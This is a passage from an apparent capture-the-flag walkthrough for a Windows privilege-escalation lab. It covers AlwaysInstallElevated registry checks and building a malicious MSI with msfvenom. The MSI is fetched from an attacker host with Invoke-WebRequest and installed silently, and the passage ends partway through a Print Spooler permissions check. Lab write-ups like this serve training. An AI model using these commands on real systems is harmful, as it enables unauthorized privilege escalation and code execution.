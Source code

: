 **🎯 FLAG 15 FOUND**: FLAG{J**********0} - Unquoted service path 3

### FLAG 16: AlwaysInstallElevated

**Location**: MSI installation privilege escalation  
**Difficulty**: Medium

```powershell
# Check if vulnerable
*Evil-WinRM* PS C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

*Evil-WinRM* PS C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

**Both are set to 1 - System is vulnerable!**

**Exploitation**:
```bash
# From Kali, create malicious MSI
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/exec CMD='cmd.exe /c type C:\Windows\System32\config\systemprofile\msi_flag.txt > C:\msi_flag.txt' -f msi -o exploit.msi

# Transfer and execute
```

```powershell
*Evil-WinRM* PS C:\Temp> Invoke-WebRequest -Uri "http://192.168.148.99:8000/exploit.msi" -OutFile exploit.msi
*Evil-WinRM* PS C:\Temp> msiexec /quiet /qn /i exploit.msi

# Check for flag
*Evil-WinRM* PS C:\Temp> Get-Content C:\msi_flag.txt
FLAG{F*************3}
```

**🎯 FLAG 16 FOUND**: FLAG{F**********3} - AlwaysInstallElevated

### FLAG 17: Print Spooler Vulnerability

**Location**: Print Spooler directory  
**Difficulty**: Hard

```powershell
# Check Print Spooler status
*Evil-WinRM* PS C:\> Get-Service Spooler

Status   Name               DisplayName
------   ----               -----------
Running  Spooler            Print Spooler

# Check directory permissions
*Evil-WinRM* PS C:\> icacls "C:\Windows\System32\spool\drivers\color"

C:\Windows\System32\spool\drivers\color Everyone:(OI)(CI)F
                                         NT AUTHORITY\SYSTEM:(I)(OI)(CI)F
                                         BUILTIN\Administrators:(I)(OI)(CI)F

# Everyone has Full control - vulnerable!

```